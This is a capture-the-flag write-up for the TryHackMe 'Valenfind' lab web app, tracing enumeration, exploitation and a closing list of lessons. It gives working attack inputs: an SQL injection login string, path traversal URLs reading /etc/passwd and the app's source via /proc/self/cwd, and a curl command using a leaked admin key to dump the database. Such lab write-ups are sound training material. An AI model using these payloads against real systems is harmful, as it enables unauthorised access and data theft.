



# Valenfind | TryHackMe Writeup

🔗 [View Challenge](https://tryhackme.com/room/lafb2026e10)

---

## Objective
Gain access to sensitive data and retrieve the flag.

---

## Enumeration

Navigated to the web application at `http://MACHINE_IP:5000`, which presented a login page.

Tried a basic SQL injection payload:

```sql
' OR 1=1 --
```

However, this did not bypass authentication.

Since there was an option to create an account, I registered a new user and logged in successfully.

---

## Analysis

After logging in, multiple user profiles were visible.  
The URL structure was:

```bash
http://MACHINE_IP:5000/profile/username
```

Tried accessing the admin profile via URL manipulation, but it was not accessible.

While exploring profiles, the user **cupid** stood out due to:
- unusually high number of likes  
- thematic relevance to the challenge  
- suspicious description:  
  > "I keep the database secure. No peeking."

This suggested that cupid might be linked to backend functionality.

---

## Exploitation

Viewing the page source of cupid’s profile revealed a JavaScript API endpoint:

```bash
/api/fetch_layout?layout=
```

Tested for path traversal vulnerability:

```bash
http://MACHINE_IP:5000/api/fetch_layout?layout=../../../../etc/passwd
```



This successfully returned system user data, confirming a **Path Traversal vulnerability**.

---

### Further Exploration

Tried accessing common files:

```bash
../../../../app.py
../../../../main.py
../../../../application.py
../../../../run.py
../../../../.env
```

These attempts did not return useful data.

Then accessed:

```bash
http://MACHINE_IP:5000/api/fetch_layout?layout=../../../../proc/self/cwd/app.py
```



This worked and revealed:
- `admin_API_key`
- database-related information

---

## Database Extraction

Used the API key to export the database:

```bash
curl -H "X-Valentine-Token: API_KEY" http://MACHINE_IP:5000/api/admin/export_db -o leak.db
```

---

## Database Analysis

Opened the database:

```bash
sqlite3 leak.db
```

Listed tables
```sql
.tables
```

Found a table named `users`.

Retrieved its contents:

```sql
SELECT * FROM users;
```

---

## Flag



The flag was found in the description field of the **cupid** user.

---

## Key Learnings

- Path Traversal can expose sensitive system files  
- `/proc/self/cwd` can be used to access application files  
- Hidden API endpoints in JavaScript can be attack surfaces
- Proper input validation is important to prevent such vulnerabilities
